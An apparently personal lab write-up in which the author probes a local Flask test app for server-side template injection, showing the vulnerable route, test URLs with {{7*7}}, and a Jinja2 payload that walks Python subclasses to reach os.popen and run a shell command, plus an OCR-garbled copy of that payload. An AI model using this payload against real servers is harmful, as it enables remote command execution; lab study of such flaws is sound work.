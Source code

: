 So, fixed this, I forgot to put in code for the get method, and make it work. Modified to this:

@app.route('/tester', methods=['GET', 'POST'])
def test():
    if request.method == 'POST':
        res=request.form["t"]
        print(res)
        return render_template("test.html", title="test", text=res)
    if request.method == 'GET':
        res=request.args.get("t")
        print(res)
        return render_template("test.html", title="test", text=res)

Tried again the above, and got:

![Extracted](flask4-extracted.png "Extracted")

Cool, getting somewhere now.. Lets try to do the SSTI..

http://127.0.0.1:5000/tester?7*7
Returns: None
http://127.0.0.1:5000/tester?t={{7*7}}
Returns: {{7*7}}
weird, no ssti. okay. I'm thinking its the way the raw data is displayed back into the /result template that is actually doing the injection.

Maybe I can hit /result from the vuln page and trigger it? It appears they removed /result from the routes, otherwise it just returns:
The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.

This should be my ssti though.. tried once more to see if I can get the colors to be better for the screenshot with monospace in Cherrytree:
flask14.png
`                                                                                                                  
  {{ "foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}} 
.                                                                                                                  

Tried to see what its getting before sending the results, looks like its getting a 1 for the l in ls, and there are some spaces messing up the formatting =[ :

{{ "foo". class base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("1s").read()}}
